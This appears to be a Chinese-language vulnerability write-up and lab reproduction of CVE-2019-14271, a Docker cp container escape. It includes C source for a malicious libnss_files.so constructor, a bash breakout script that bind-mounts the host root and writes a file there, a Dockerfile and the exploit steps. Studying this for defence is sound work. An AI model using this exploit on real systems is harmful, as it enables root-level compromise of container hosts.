


# 漏洞介绍

Docker的cp命令由于要从容器中加在动态链接库，攻击者可以替换容器内的动态链接库，使得用户执行cp命令后，实现容器逃逸。

# 漏洞原理

执行`docker cp`会创建一个`docker-tar`进程，`docker-tar`**没有被namespace化**，而是通过chroot到容器中，将请求的文件或目录生成tar文件传递给Docker daemon，然后由daemon提取到主机的目录中。

一些含有嵌入C代码（cgo）的包会在运行时加载动态链接库，由于docker-tar已经chroot到了容器内，所以会从容器文件系统加载库。

由于容器是被攻击者控制的，攻击者可以构造恶意的共享库向`docker-tar`进程注入代码，以获得host上的root访问权限。

# 漏洞利用

利用libnss_files.so库，下载其源码，增加两个函数并且重新编译：




```c
#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

bool is_priviliged();

__attribute__ ((constructor)) void run_at_link(void)
{
     char * argv_break[2];
     if (!is_priviliged())
           return;
     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
     fprintf(log_fp, "switched back to the original libnss_file.so");

     if (!fork())
     {
           // Child runs breakout
           argv_break[0] = strdup("/breakout");
           argv_break[1] = NULL;
           execve("/breakout", argv_break, NULL);
}
     else
           wait(NULL); // Wait for child
     return;
}

bool is_privileged()
{
     FILE * proc_file = fopen("/proc/self/exe", "r");
     if (proc_file != NULL)
     {
           fclose(proc_file);
           return false; // can open so /proc exists, not privileged
     }
     return true; // we're running in the context of docker-tar
}
```
- `run_at_link`通过constructor属性修饰，进程加载动态库时会执行被constructor修饰的函数。

>The constructor attribute causes the function to be called automatically before execution enters main (). Similarly, the destructor attribute causes the function to be called automatically after main () has completed or exit () has been called. Functions with these attributes are useful for initializing data that will be used implicitly during the execution of the program.

- 首先调用`is_priviliged()`验证是否运行在docker-tar上下文中：
	- 原因：容器内正常的进程也可能加载该库；
	- 方法：检查`/proc`目录（`is_privileged()`函数）
		- 原因：如果`run_at_link()`运行在`docker-tar`上下文中，那么该目录为空，因为挂载到`/proc`的procfs只存在于容器的mount namespace中
- 将恶意库替换为原始的libnss库
	- 原因：确保后续进程加载libnss库时不会意外执行`run_at_link`

**breakout**

```bash
#!/bin/bash
exec > /break_logs 2>&1  # defer output & err to break_logs

umount /host_fs && rm -rf /host_fs
mkdir /host_fs

mount -t proc none /proc  # mount host's procfs
cd /proc/1/root           # chdirs to host's root
mount --bind . /host_fs   # mount host root at /host_fs

echo "Hello from within the container!" > /host_fs/evil
```

- 尝试执行容器中的`/breakout`可执行文件
	- 挂载host的procfs伪文件系统
	- breakout会挂载host的/到容器中的/host_fs
	- 向host文件系统中创建文件并写入内容，验证任意代码执行与mount逃逸


# 漏洞复现

## 环境搭建

```bash
sudo ./metarget cnv install cve-2019-14271 --verbose
```


**Dockerfile**

```Dockerfile
FROM ubuntu

WORKDIR /
COPY breakout /
COPY libnss_files.so.2 /
COPY original_libnss_files.so.2 /
RUN chmod u+x breakout

CMD bash
```

**构建容器**

```bash
docker build -t cve-2019-14271 .
docker run -it -d --rm --name exploit cve-2019-14271
```


## Exploit

**在容器中**

```bash
rm /lib/x86_64-linux-gnu/libnss_files.so.2
mv /libnss_files.so.2 /lib/x86_64-linux-gnu/
touch /logs
```

**在容器外**

```bash
sudo docker cp cve-2019-14271:/logs ./
```

1. 在/下创建了文件evil，可以以root权限执行任意代码；
2. 在容器内把host的/挂载到了host_fs，容器可以绕过mount namespace

# 漏洞修复

修复了`docker-tar`的init函数，强制在chroot前加载libnss库